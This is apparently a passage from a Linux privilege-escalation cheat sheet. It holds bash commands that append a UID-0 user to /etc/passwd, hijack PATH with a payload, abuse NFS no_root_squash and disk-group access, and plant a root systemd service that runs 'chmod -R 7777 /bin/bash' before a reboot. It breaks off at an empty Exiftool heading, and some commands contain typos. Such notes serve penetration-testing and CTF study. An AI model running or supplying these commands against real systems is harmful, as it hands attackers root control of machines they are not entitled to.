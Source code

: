 ```bash
# Mounted filesystems
cat "/etc/fstab"

# Available disks
lsblk
```
### Change Password

```bash
# Generate openssl hash
openssl passwd root

# Assign hash to root user
echo "root2:[HASH]:0:0:root:/root:/bin/bash" >> /etc/passwd
```
### Path Variables

```bash
echo $PATH
PATH=/tmp:$PATH
nano "/tmp/[PAYLOAD]"

# Payload
echo "#!/bin/bash" > "[EXECUTABLE-NAME]"
echo "chmod -R 7777 /bin/bash"
```
### NFS

```bash
cat "/etc/exports" # no_root_squares enabled allows us to create root files
showmount -e "[IP]"
mount -o rw "[TARGET-IP]:[DIR]" "[MOUNT-DIR]"
```
### Groups

Disk Group:

```bash
debug fs /dev/sda2
```

Reboot Privilege Escalation:

```bash
# Searching for writeable services
find / -writable -name "*.service" 2>/dev/null

# Inserting payload into the service
echo "[Unit]" >> "[SERVICE-LOCATION]"
echo "Description=Zeno monitoring" >> "[SERVICE-LOCATION]"

echo "[Service]" >> "[SERVICE-LOCATION]"
echo "Type=simple" >> "[SERVICE-LOCATION]"
echo "User=root" >> "[SERVICE-LOCATION]"
echo "ExecStart=/bin/bash -c 'chmod -R 7777 /bin/bash'" >> "[SERVICE-LOCATION]"

echo "[Install]" >> "[SERVICE-LOCATION]"
echo "WantedBy=multi-user.target" >> "[SERVICE-LOCATION]"

# Restart machine
sudo /usr/sbin/reboot
```
### Exiftool

